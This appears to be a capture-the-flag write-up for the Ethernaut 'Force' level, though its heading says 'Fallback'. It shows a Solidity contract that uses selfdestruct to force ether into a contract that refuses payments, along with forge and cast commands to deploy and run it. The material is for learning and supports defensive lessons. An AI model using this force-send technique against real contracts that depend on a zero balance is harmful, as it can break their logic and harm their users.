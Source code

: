 ## Fallback Level Outline

**Difficulty : 5/10**

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x22699e6AdD7159C3C385bf4d7e1C647ddB3a99ea)

## Solution

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    address payable target;

    constructor(address payable _target) {
        target = _target;
    }

    function explode() public payable {
        selfdestruct(target);
    }
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Contract --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

3. call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "explode()" --value 0.0001ether --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
As seen from above, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.
